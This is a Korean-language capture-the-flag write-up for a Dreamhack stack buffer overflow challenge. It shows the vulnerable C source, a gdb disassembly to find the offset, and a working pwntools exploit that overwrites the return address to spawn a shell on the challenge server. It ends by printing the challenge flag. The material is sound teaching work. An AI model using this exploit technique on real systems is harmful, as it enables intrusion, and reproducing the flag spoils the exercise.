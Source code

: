 https://honey-push-30b.notion.site/Return-Address-Overwrite-2ec4225d4b084d999f629c1f6ba0d099
# 문제파일 다운로드

![문제파일다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1c5529c6-19d4-44a3-b5a4-c0a2c7fc8bb4/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

Rreturn Address Overwrite의 문제파일을 다운로드 받으면 rao.c 파일과 gdb로 열 rao파일을 받을 수 있는데 먼저 c파일을 열어 코드를 확인하면 아래와 같다.

```python
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

buf 값에 입력값을 받는데 입력값의 크기를 검증하지 않아 ret 값을 덮어 씌울 수 있다. 그 ret 주소를 get_shell의 주소로 덮어 씌운다면 get_shell 함수를 실행시켜 쉘을 딸 수 있다.

```python
gdb-peda$ disas main
Dump of assembler code for function main:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x30
   0x00000000004006f0 <+8>:     mov    eax,0x0
   0x00000000004006f5 <+13>:    call   0x400667 <init>
   0x00000000004006fa <+18>:    lea    rdi,[rip+0xbb]        # 0x4007bc
   0x0000000000400701 <+25>:    mov    eax,0x0
   0x0000000000400706 <+30>:    call   0x400540 <printf@plt>
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   0x0000000000400728 <+64>:    leave  
   0x0000000000400729 <+65>:    ret    
End of assembler dump.
```

gdb를 이용하여 main 함수를 켜본 결과 main+4에서 sub rsp 0x30을 통해 0x30만큼 버퍼의 크기를 확보해 주는 것을 볼 수 있다. 따라서

버퍼 0x30

SFP 8바이트

RET 8바이트

로 구성되어 있으므로 총 입력값은 0x30(버퍼)만큼 채운뒤 0x8(SFP)만큼 더 채우고 get_shell의 주소를 8바이트 형태로 입력하면 된다.

```python
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

get_shell의 주소를 print를 통해 알아내면 0x4006aa임을 알 수 있다.

```python
from pwn import *

p= remote('host3.dreamhack.games',10830)
address=p64(0x4006aa)

payload= b'A'*0x30
payload+=b'A'*0x8
payload+=address

p.sendlineafter("Input: ",payload)

p.interactive()
```

pwntools를 이용하여 exploit 코드를 작성하면

payload는 3단계로 구성된다.

버퍼를 덮을 0x30 만큼의 A(바이트형태)

SFP를 덮을 0x8만큼의 A(바이트 형태)

ret을 덮을 64비트 형태의(0x4006aa) p64를 이용하면 16진수 값의 주소를 알아서 리틀 엔디언으로 64비트 형태로 만들어 준다.

이제 연결 후 Input: 값이 출력되면 payload를 전송한 후 그 결과를 interactive로 받아준다. 

```python
└─# python3 ./answer.py                                                2 ⨯
[+] Opening connection to host3.dreamhack.games on port 10830: Done
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
$ ls
flag
rao
run.sh
$ cat flag
DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}
[*] Got EOF while reading in interactive
$
```

정상적으로 쉘을 이용할 수 있게 되어 ls를 통해 flag 파일이 있음을 알아내고 cat flag를 통해 flag 파일에 저장된 `DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}`를 알아냈다.
